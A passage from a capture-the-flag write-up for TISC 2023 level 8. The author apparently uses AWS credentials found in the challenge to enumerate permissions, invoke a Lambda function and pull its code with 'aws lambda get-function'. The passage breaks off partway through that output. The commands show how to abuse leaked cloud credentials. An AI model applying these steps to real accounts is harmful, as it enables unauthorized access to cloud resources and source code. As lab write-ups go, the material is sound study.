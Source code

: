 Nice. Let's use those credentials and see what we can do with them. I ran `enumerate-iam`, which unfortunately reported that we couldn't really do much at all.

```
2023-09-18 12:25:11,386 - 900745 - [INFO] -- sts.get_session_token() worked!
2023-09-18 12:25:11,635 - 900745 - [INFO] -- sts.get_caller_identity() worked!
2023-09-18 12:25:36,204 - 900745 - [INFO] -- dynamodb.describe_endpoints() worked!
(not shown: like 1000 lines of errors)
```

But wait. `server.js` was using these credentials, right? And clearly it was invoking a lambda function. This means that we _must_ have `lambda:InvokeFunction` privilege.

I verified that this was indeed the case:

```sh
┌──(kali㉿kali)-[~/…/ctf/2023/tisc2023/level8]
└─$ aws lambda invoke --function-name craft_query --payload '{"username":"bobby","password":"password"}' lambda_out
{
    "StatusCode": 200,
    "ExecutedVersion": "$LATEST"
}
```

Maybe we can try to call `get-function` to obtain the lambda function's source code?

```
┌──(kali㉿kali)-[~/…/ctf/2023/tisc2023/level8]
└─$ aws lambda get-function --function-name craft_query                                                   
{
    "Configuration": {
        "FunctionName": "craft_query",
        "FunctionArn": "arn:aws:lambda:ap-southeast-1:051751498533:function:craft_query",
        "Runtime": "nodejs18.x",
        "Role": "arn:aws:iam::051751498533:role/tisc23_ctf_sg-prod20230727104447843500000001",
        "Handler": "index.handler",
        "CodeSize": 27111,
        "Description": "",
        "Timeout": 3,
        "MemorySize": 128,
        "LastModified": "2023-09-17T05:22:48.000+0000",
        "CodeSha256": "0VuNy4uHSR76zarXcdwdoBKrSQp+xJjMgsxI3W0wIAU=",
        "Version": "$LATEST",
        "TracingConfig": {
            "Mode": "PassThrough"
        },
        "RevisionId": "1bc6404d-4fe0-482f-8d8b-af6be7fa46f3",
        "State": "Active",
        "LastUpdateStatus": "Successful",
        "PackageType": "Zip"
    },
    "Code": {
        "RepositoryType": "S3",
```